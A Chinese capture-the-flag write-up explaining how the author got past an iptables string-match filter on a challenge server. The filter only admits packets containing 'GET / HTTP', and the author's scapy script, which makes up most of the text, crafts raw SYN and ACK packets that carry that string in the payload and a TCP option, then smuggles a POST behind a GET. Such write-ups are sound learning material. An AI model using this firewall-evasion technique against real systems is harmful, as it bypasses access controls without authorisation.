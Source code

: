 ### 我的 P

不知道为啥，用第一问的代码也过了。

### 我的 GET（非预期）

```
-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
```

这两行iptables的意思大概是只允许包前50个byte含有`GET / HTTP`的包通过，因此我们在SYN，SYNACK的时候都需要把`GET / HTTP`塞进包里面。笔者尝试用`scapy`构造了TCP包。

最开始笔者打算用HTTP Pipelining，在发SYNACK的时候直接把GET和POST一起发过去，不过发现go的http库似乎不太支持这样的行为，只能返回第一个GET的结果，因此后来尝试了把`GET / HTTP`塞进TCP Options里（笔者也尝试过塞IP Options里，不过option似乎会被链路上的某些路由器丢掉，所以就改用了TCP Options了），这样倒也不会让那个go程序把误认为我在GET了。

```python
from scapy.all import *
import random
# 设置目标IP和端口
sport = 13377
dport = 18082
src = "SRC-IP"
dst = "202.38.93.111"
iface = "eth0"

pld = b"GET / HTTP"
tcpopt = b"\xfa%s%s" % ((len(pld)+2).to_bytes(), pld) # length 12

ether = Ether(type=0x800, dst="MAC ADDR", src="MAC ADDR")
ip = IP(src=src, dst=dst)

seqstart = random.randint(1000,5000)

# 构建并发送SYN包
SYN = TCP(sport=sport, dport=dport, flags='S', seq=seqstart)
xsyn = ether / ip / SYN / "GET / HTTP"
packet = xsyn.build()
sendp(packet, iface=iface, verbose=0)

# 直接接收从目标IP地址返回的第一个包
syn_ack = sniff(iface=iface, filter=f"ip src {dst}", count=1, timeout=5)
if not syn_ack:
    print("SYN-ACK not received.")
    sys.exit()

syn_ack = syn_ack[0]
print(syn_ack)
# 构建并发送ACK包
ACK = TCP(sport=sport, dport=dport, flags='A', seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1, options=[(66, "GET / HTTP"), ("EOL", None)])
http_payload = "GET / HTTP/1.1\r\nHost: a\r\n\r\nPOST / HTTP/1.1\r\nX-A: GET / HTTP\r\nHost: srv\r\nContent-Length: 15\r\n114514:asdfgh==\r\n\r\n"
xack = ether / ip / ACK / http_payload
sendp(xack.build(), iface=iface, verbose=1)

```
